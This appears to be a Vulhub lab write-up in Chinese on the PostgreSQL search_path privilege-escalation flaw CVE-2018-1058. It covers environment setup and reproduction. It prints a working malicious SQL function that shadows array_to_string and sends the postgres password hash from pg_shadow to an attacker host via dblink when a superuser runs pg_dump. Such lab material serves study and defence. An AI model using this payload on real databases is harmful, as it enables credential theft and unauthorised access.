

PostgreSQL 提权漏洞 CVE-2018-1058¶
漏洞描述¶
PostgreSQL 是一款关系型数据库。其9.3到10版本中存在一个逻辑错误，导致超级用户在不知情的情况下触发普通用户创建的恶意代码，导致执行一些不可预期的操作。
参考链接：
- https://wiki.postgresql.org/wiki/A_Guide_to_CVE-2018-1058:_Protect_Your_Search_Path
- https://xianzhi.aliyun.com/forum/topic/2109
环境搭建¶
启动存在漏洞的环境：
docker-compose up -d
环境启动后，将在本地开启PG默认的5432端口。
漏洞复现¶
Vulhub参考上述链接中的第二种利用方式，我们先通过普通用户vulhub:vulhub的身份登录postgres: psql --host your-ip --username vulhub

执行如下语句后退出：
CREATE FUNCTION public.array_to_string(anyarray,text) RETURNS TEXT AS $$
select dblink_connect((select 'hostaddr=10.0.0.1 port=5433 user=postgres password=chybeta sslmode=disable dbname='||(SELECT passwd FROM pg_shadow WHERE usename='postgres')));
SELECT pg_catalog.array_to_string($1,$2);
$$ LANGUAGE SQL VOLATILE;
然后我在10.0.0.1上监听5433端口，等待超级用户触发我们留下的这个“后门”。
（假装自己是超级用户）在靶场机器下，用超级用户的身份执行pg_dump命令：docker-compose exec postgres pg_dump -U postgres -f evil.bak vulhub，导出vulhub这个数据库的内容。
执行上述命令的同时，“后门”已被触发，10.0.0.1机器上已收到敏感信息：

上述过程仅是该漏洞的一种利用方法，涉及到机器比较多可能有点乱，建议读者阅读参考链接中的文章，获取更多利用方法。